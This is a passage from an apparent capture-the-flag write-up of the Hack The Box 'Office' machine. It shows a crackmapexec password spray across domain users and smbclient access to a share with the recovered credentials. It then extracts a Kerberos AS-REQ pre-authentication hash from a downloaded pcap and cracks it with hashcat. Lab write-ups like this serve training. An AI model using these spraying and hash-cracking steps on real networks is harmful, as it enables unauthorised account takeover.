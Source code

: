 ```markdown
tstark@office.htb
```
Let's spray the password we previously found in SMB with the username list.
```markdown
> crackmapexec smb office.htb -d office -u ./userlist -p 'H0lOgrams4reTakIng0Ver754!' --continue-on-success

SMB         10.10.11.3      445    DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:office) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office\administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office\etower:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [+] office\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.10.11.3      445    DC               [-] office\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office\dlanor:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office\hhogan:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office\tstark:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
```
Log into the share using credentials. A `.pcap` file appears, download it.
```markdown
> smbclient \\\\office.htb\\'SOC Analysis' -U dwolfe%H0lOgrams4reTakIng0Ver754!

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed May 10 14:52:24 2023
  ..                                DHS        0  Wed Feb 14 05:18:31 2024
  Latest-System-Dump-8fbc124d.pcap      A  1372860  Sun May  7 20:59:00 2023

                6265599 blocks of size 4096. 1120672 blocks available
smb: \> get Latest-System-Dump-8fbc124d.pcap
getting file \Latest-System-Dump-8fbc124d.pcap of size 1372860 as Latest-System-Dump-8fbc124d.pcap (223.6 KiloBytes/sec) (average 223.6 KiloBytes/sec)
smb: \> exit
```
Open the capture with Wireshark and filter by Kerberos protocol, turns out an `AS-REQ` packet has been captured.

![office Untitled3](https://github.com/g1vi/AllTheWriteUps/assets/120142960/b80aaab7-b48d-4b14-af71-7aef8df7b14b)

If you remember Kerberos theory, the user sends a timestamp encoded with the NTLM hash when a TGT is requested (`AS-REQ`) . In this case, Wireshark provides the encoded timestamp (`padata-value`) and the `cipher` used to encode it, this is the user's NTLM hash. Wireshark also indicates the timestamp has been encoded using AES-256.<br>
<br>
The cipher (i.e. the user NTLM hash) can be cracked it with `hashcat` (module 19900). For this, prepare the hash in a `hashcat` readable format according to https://hashcat.net/wiki/doku.php?id=example_hashes<br>
<br>
After crafting and testing a hash for any username previously disclosed, we find out the only crackable hash belongs to user `tstark`
```markdown
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```
Credential is cracked by `hashcat` module 19900.
```markdown
> hashcat -m 19900 -a 0 -d 1 hash.txt .\rockyou.txt
```